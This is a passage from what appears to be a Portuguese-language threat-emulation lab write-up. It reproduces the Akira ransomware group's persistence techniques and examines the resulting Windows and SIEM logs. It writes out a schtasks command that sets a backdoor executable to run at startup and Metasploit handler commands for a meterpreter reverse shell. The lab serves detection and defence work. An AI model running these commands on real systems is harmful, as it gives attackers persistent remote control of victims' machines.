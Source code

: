 Os logs gerados pelo EventViewer se encontraram da seguinte maneira:

<p align="center">
  <img src="Imagens/event 4688 - event viewer.png">
  <br>
  Figura 34: Log Gerado no Sistema do Windows.

E os logs gerados pelo SIEM, se encontram da seguinte maneira:

<p align="center">
  <img src="Imagens/4688 - log gerado no siem - processo criado - chave de registro.png">
  <br>
  Figura 35: Log Gerado no SIEM.

## Emulação de Ameaça IV: Execução de Tarefas ou Serviços Agendados (Task Scheduler)

Além da modificação no registro, o grupo Akira configura mais uma forma de persistência adicional, eles utilizam da criação de uma tarefa agendada ou serviços personalizados para garantir que o acesso ao sistema seja mantido. Para isso, o comando `schtasks` pode ser utilizado, como mostrado a seguir:

```zsh
schtasks /create /tn "persistencia_akira" /tr "C:\Users\Public\backdoor.exe" /sc onstart /f
```

Esse comando agenda a execução do playload malicioso como backdoor para iniciar junto ao sistema da vítima, retornando em uma shell reversa:

<p align="center">
  <img src="Imagens/tarefa agendada criada.png">
  <br>
  Figura 36: Tarefa Agendada com Sucesso.

Para garantir que a tarefa foi criada com sucesso, você pode listar todas as tarefas agendadas e verificar se `persistencia_akira` está na lista:

```zsh
schtasks /query /tn "persistencia_akira"
```

<p align="center">
  <img src="Imagens/validando se a task foi criada.png">
  <br>
  Figura 37: Validando Tarefa Agendada com Sucesso.

Aguarde a conexão reversa em seu sistema Linux. Se você estiver usando o Metasploit, abra o handler:

```zsh
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <seu_IP_atacante>
set LPORT <porta>
exploit
```
